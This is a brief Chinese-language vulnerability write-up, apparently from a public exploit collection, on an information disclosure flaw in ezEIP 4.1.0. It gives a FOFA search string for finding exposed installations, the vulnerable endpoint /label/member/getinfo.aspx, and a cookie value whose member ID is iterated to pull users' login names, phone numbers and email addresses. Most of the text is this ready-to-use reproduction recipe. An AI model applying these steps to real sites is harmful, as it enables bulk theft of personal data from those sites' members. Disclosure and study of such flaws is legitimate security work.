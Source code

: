 # ezEIP-4.1.0-信息泄露漏洞

## 漏洞描述

ezEIP 4.1.0 存在信息泄露漏洞，通过遍历Cookie中的参数值获取敏感信息

## 漏洞影响

> [!NOTE]
>
> ezEIP 4.1.0 

## FOFA

> [!NOTE]
>
> "ezEIP"

## 漏洞复现

漏洞Url为

```
/label/member/getinfo.aspx
```

访问时添加Cookie（通过遍历获取用户的登录名电话邮箱等信息）

```
WHIR_USERINFOR=whir_mem_member_pid=1;
```

![ez-1](ezEIP-4.1.0-信息泄露漏洞.assets/1627363037290999.jpg)
